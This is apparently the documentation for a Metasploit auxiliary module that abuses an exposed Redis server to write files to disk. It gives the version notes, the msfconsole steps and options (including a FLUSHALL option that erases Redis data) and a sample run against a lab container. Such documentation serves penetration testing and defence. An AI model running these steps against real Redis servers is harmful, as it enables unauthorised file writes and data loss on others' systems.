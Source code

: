 ## Description

Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module can be used to leverage functionality exposed by Redis to achieve somewhat arbitrary file upload to a file and directory to which the user account running the redis instance has access.  It is not totally arbitrary because the exact contents of the file cannot be completely controlled given the nature of how Redis stores its database on disk.

## Vulnerable Application

This module is tested on two different Redis server instances.
Virtual testing environments (inside docker container): 

 - Redis 5.0.6
 - Redis 4.0.14

## Verification Steps

  1. Do: `use auxiliary/scanner/redis/file_upload`
  2. Do: `set rhosts [ips]`
  3. Do: `set LocalFile [local_file_path_to_be_uploaded]`
  4. Do: `set RemoteFile [remote_file_destination]`
  5. Do: `run`

## Options

**DISABLE_RDBCOMPRESSION**

If set to `false`, redis server will disable compression before saving. Defaults to `true`.

**FLUSHALL**

If set to `true`, redis server will remove all redis data before saving. Defaults to `false`.

**LocalFile**

Path to the local file to be uploaded.

**RemoteFile**

Path, or file name, to store the file as on the Redis server.

## Scenarios

### Redis: 4.0.14 inside a docker container
  ```
msf5 auxiliary(scanner/redis/file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf5 auxiliary(scanner/redis/file_upload) > set LocalFile redis_upload_test.txt
LocalFile => redis_upload_test.txt
msf5 auxiliary(scanner/redis/file_upload) > set RemoteFile redis_upload_test.txt
RemoteFile => redis_upload_test.txt
msf5 auxiliary(scanner/redis/file_upload) > run

[+] 172.17.0.2:6379       - 172.17.0.2:6379       -- saved 23 bytes inside of redis DB at redis_upload_test.txt
[*] 172.17.0.2:6379       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
